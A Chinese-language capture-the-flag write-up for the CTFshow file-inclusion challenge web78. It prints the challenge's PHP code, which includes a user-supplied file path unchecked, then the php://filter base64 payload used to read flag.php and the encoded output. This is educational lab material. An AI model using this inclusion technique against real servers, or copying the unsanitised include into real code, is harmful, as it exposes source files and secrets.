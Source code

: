 # CTFSHOW 文件包含

**目录**

[TOC]





## web78   php://filter

```cobol
 <?php
 
/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 10:52:43
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-16 10:54:20
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
 
*/
 
 
if(isset($_GET['file'])){
    $file = $_GET['file'];
    include($file);
}else{
    highlight_file(__FILE__);
} 
```

包含一个文件

发现了 include 我们可以配合伪协议来读取flag

```cobol
php://filter/read=convert.base64-encode/resource=flag.php
```

```cobol
PD9waHANCg0KLyoNCiMgLSotIGNvZGluZzogdXRmLTggLSotDQojIEBBdXRob3I6IGgxeGENCiMgQERhdGU6ICAgMjAyMC0wOS0xNiAxMDo1NToxMQ0KIyBATGFzdCBNb2RpZmllZCBieTogICBoMXhhDQojIEBMYXN0IE1vZGlmaWVkIHRpbWU6IDIwMjAtMDktMTYgMTA6NTU6MjANCiMgQGVtYWlsOiBoMXhhQGN0ZmVyLmNvbQ0KIyBAbGluazogaHR0cHM6Ly9jdGZlci5jb20NCg0KKi8NCg0KDQokZmxhZz0iY3Rmc2hvd3s3MDQ4ZDgyOC0yYzBiLTQzZDAtYmRjYi02OTNmNWVhMjI3Yzh9Ijs=
```

解码



<img src="https://i-blog.csdnimg.cn/blog_migrate/704cff131ffd58acccd04ae279007962.png" alt="" style="max-height:394px; box-sizing:content-box;" />

